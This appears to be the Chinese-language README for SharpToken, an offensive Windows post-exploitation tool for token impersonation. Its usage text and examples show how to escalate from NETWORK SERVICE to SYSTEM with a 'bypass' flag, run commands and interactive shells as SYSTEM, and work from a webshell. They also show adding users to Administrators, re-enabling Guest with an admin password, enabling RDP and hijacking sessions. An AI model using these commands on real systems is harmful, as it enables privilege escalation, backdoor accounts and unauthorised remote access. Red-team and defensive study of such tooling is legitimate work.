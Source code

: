 # SharpToken


.NET版本的incognito

![image](https://user-images.githubusercontent.com/43266206/188081018-8717b066-1143-48b8-b62b-31360316cce1.png)


## Usage

```
SharpToken By BeichenDream
=========================================================

Github : https://github.com/BeichenDream/SharpToken

If you are an NT AUTHORITY\NETWORK SERVICE user then you just need to add the bypass parameter to become an NT AUTHORIT\YSYSTEM
e.g.
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass


Usage:

SharpToken COMMAND arguments



COMMANDS:

        list_token [process pid]        [bypass]

        list_all_token [process pid] [bypass]

        add_user    <username> <password> [group] [domain] [bypass]

        enableUser <username> <NewPassword> [NewGroup] [bypass]

        delete_user <username> [domain] [bypass]

        execute <tokenUser> <commandLine> [Interactive] [bypass]

        enableRDP [bypass]

        tscon <targetSessionId> [sourceSessionId] [bypass]


example:
    SharpToken list_token
    SharpToken list_token bypass
    SharpToken list_token 6543
    SharpToken add_user admin Abcd1234! Administrators
    SharpToken enableUser Guest Abcd1234! Administrators
    SharpToken delete_user admin
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
    SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami" bypass
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true
    SharpToken execute "NT AUTHORITY\SYSTEM" cmd true bypass
    SharpToken tscon 1




```

## 枚举Token

枚举的信息包括SID,LogonDomain,UserName,Session,LogonType,TokenType,TokenHandle(Duplicate后的Token句柄),TargetProcessId(Token来源的进程),TargetProcessToken(Token在源进程的句柄)，Groups(Token用户所在组)

```
SharpToken list_token
```

![image](https://user-images.githubusercontent.com/43266206/176751244-dd8f8899-59ec-48e5-9bee-464c0e146573.png)

## 从指定进程枚举Token

```
SharpToken list_token 468
```

![image](https://user-images.githubusercontent.com/43266206/176753494-3c6df1cb-5d14-4b36-aa61-ca68a8c38009.png)



## 获得交互式shell

```
execute "NT AUTHORITY\SYSTEM" cmd true
```

![image](https://user-images.githubusercontent.com/43266206/176751714-c7edb21c-f0be-4794-a14f-be4a7b1fdf61.png)

## 获取命令执行结果(webshell下执行)

```
SharpToken execute "NT AUTHORITY\SYSTEM" "cmd /c whoami"
```

![image](https://user-images.githubusercontent.com/43266206/176751980-dd9413f4-1a4d-4cb0-8ba2-5e0b9ccb2eed.png)

## 引用

https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html

https://github.com/decoder-it/NetworkServiceExploit